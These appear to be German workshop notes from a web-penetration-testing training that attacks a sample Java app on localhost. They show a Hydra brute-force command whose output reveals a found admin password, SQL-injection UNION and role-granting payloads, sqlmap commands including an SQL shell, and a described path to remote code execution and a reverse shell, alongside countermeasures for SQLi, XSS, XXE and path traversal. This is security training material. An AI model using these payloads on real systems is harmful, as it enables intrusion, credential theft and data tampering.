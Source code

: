 # Workshop-Notes Security-Hacking

## Beispiel-Anwendung mal gestartet (erst DB, dann Tomcat)

Nach Sicherheitslücken gesucht

### Findings

* Session-ID ist in URL ersichtlich
  => kann per Konfiguration auf "nur im Cookie" eingestellt werden
* Bei Anmeldung kann über "Schrott-Daten" ein Stack-Trace erzeugt werden
* Kein HTTPS
* SQL-Injection ist möglich (wo genau?)
* Man sieht auch Infos zum Web-Server ("Apache Tomcat/7.0.61")
  * Damit ist eine "CVE-Recherche" möglich (cvedetails.com)
* Angrif auf die DB: exploit-db.com, remote-code-execution möglich

## Tools

### Nikto

findet diverse Default-Dinge, die man alle nicht live haben sollte

### OWASP-ZAP

* "Intercepting Proxy"

### Hydra

* Admin-Passwort erschleichen mittels Brute-Force-Attack
* Passwort-Listen übers Internet erhältlich (git -> danielmiessler / SecListe)

      root@kali:~/Downloads/Marathon# hydra -t 4 -f -l admin -P Marathon-Web/top-pw-cracking-list.txt localhost -s 8080 http-form-post "/marathon/secured/j_security_check:j_username=^USER^&j_password=^PASS^:Wrong"
      Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

      Hydra (<http://www.thc.org/thc-hydra)> starting at 2017-11-10 10:31:37
      [DATA] max 4 tasks per 1 server, overall 4 tasks, 1001 login tries (l:1/p:1001), ~251 tries per task
      [DATA] attacking http-post-form://localhost:8080//marathon/secured/j_security_check:j_username=^USER^&j_password=^PASS^:Wrong
      [8080][http-post-form] host: localhost   login: admin   password: 4dm1n
      [STATUS] attack finished for localhost (valid pair found)
      1 of 1 target successfully completed, 1 valid password found
      Hydra (<http://www.thc.org/thc-hydra)> finished at 2017-11-10 10:31:48

## SQL-Injection

* Gegenmaßnahmen: Prepared-Statements, OR-Mapper
* Such-Feld: Lars' eingeben => Stack-Trace => HSQL-DB
* Problem: String-Verkettung - Anti-Pattern "Mix Data with Code" (aus Daten wird Code) => nicht tun (sondern z.B. Prepared-Statement)
* URL der SearchResults.jsp:
  * Eingabe von <http://localhost:8080/marathon/showResults.page?marathon=2-1>
  * => Ergebnis ist identisch zu ...1, da wird also die Subtraktion ausgeführt
  * analog: ...and 1=1, und and 1=2
  * auch wieder String-Verkettung
* Datumsfeld beim Erzeugen eines Accounts
  * Es wird zwar ein Prepared-Statement verwendet, aber "darin" auch wieder eine String-Verkettung beim Datum gemacht

* Ausnutzen des Search-Fields => Datenmodell auslesen via SQL-Union-Statement
* Anzahl Spalten erraten
  * 'AND 1=2 UNION ALL SELECT null,null,null,null,null,null,null,null,null FROM information_schema.columns WHERE table_schema='PUBLIC' --

* Datentypen der Spalten erraten
  * 'AND 1=2 UNION ALL SELECT 'X',null,null,null,null,null,null,null,null FROM information_schema.columns WHERE table_schema='PUBLIC' --

* Daten verändern (schreiben)
  * '; insert into app_role(username,rolename) values ('test','administrator');commit;SELECT null,null,null,null,null,null,null,null,null FROM information_schema.columns WHERE table_schema='PUBLIC'--
  * (Mist, falsch abgetippt, Statement funktioniert nicht...)

### sqlmap

* maschinelles Auslesen von Informationen
* sqlmap --flush-session -u <http://localhost:8080/marathon/showResults.page?marathon=0>
* sqlmap --dbs -u <http://localhost:8080/marathon/showResults.page?marathon=0>
* sqlmap -D PUBLIC --tables -u <http://localhost:8080/marathon/showResults.page?marathon=0>
* sqlmap -D PUBLIC --tables --columns -u <http://localhost:8080/marathon/showResults.page?marathon=0>
* sqlmap --sql-shell -u <http://localhost:8080/marathon/showResults.page?marathon=0>

* Ausnutzen von "Blind"-SQL-Injection über Antwortzeit
* geht auch mit sqlmap

## Vorführung

* Umgestellt auf PostgreSQL...
* Mittels der "sql-shell" (von oben) via sqlmap auf das Dateisystem zugreifen...
* Temporäre Tabelle anlegen (create table...), dann /etc/passwd importiert
* Schreibender Zugriff... (create "blob", blob mit C-Code befüllen, blob exportieren)
* Dann "aufrufen" - funktioniert erschreckenderweise - Remote Code Execution ist möglich!!!
* "Reverse Shell" erzeugt

## Gegenmaßnahmen

* Input-Validierung !!! so weit vorne wie möglich, wo stark wie möglich !!!
* Länge von u.a. URL-Parametern, am besten auf konkrete Datentypen beschränken (z.B. Zahlen nicht als String)
* Datenbank-User beschränken (z.B. keine BLOBs, kein Zugriff aufs Dateisystem)

## Cross-Site-Scripting

* XSS-Angriffe greifen den Client an (Daten stehlen: Cookies, Passworte, Einkaufen, ...)
* Gegenmaßnahme z.B. WAF (Web-Application-Firewall, gibt es als "mod" für Apache)
* DOM-based XSS
  * "Sprechblase" mit dynamisch erzeugtem Mailto-Link
  * Problem: aus innerHTML heraus wird kein Script ausgeührt
  * Lösung: über zusätzliches img-Tag
* Bsp.: "Infektion" einer "anderen" Anwendung, die auch auf die kompromittierten Daten zugreift
* www.openbugbounty.org

## Inrusion via XML

* DTD-Injection "XML eXternal Entity (XEE)"
* Z.B.: mittels file-Protokoll-Handler die /etc/passwd ausgelesen
* Lösung: DTD- und Entity-Handling via Konfiguration des XML-Parsers deaktivieren

## Intrusion via File-Up- oder -Download

* "File-Path-Traversal"
* Lösungsalternativen
  * Dateien möglichst nicht im Dateisystem speichern, sondern in einer DB als LOB
  * Dateinamen randomisieren, zum Benutzer speichern, und über diesen randomisierten Dateinamen ausgeben
  * Parent-Directory prüfen gegen erwartetes Verzeichnis
* Verwenden von ZAP um Lücken zu finden
  * Hat einen "passiven" Modus, der schon bisschen was findet
  * Hat einen "Spider"-Modus, der aber nicht so dolle ist (v.a. bei SPAs)
  * Gibt auch ein Jenkins-Plugin dafür (war auch im Talk "von Robert" mit Bestandteil)
  * Anti-Automations-Mechanismen wie z.B. ein Captcha,müssen dafür natürlich deaktiviert werden

## Statische Code-Analyse

* "DAST" und "SAST"
* FindBugs-Plug-In "FindSecurityBugs" (für Java natürlich)
* Xanitizer-Suite

## Präsentation

* <https://www.christian-schneider.net/downloads/Toolbased_WebPentesting.pdf>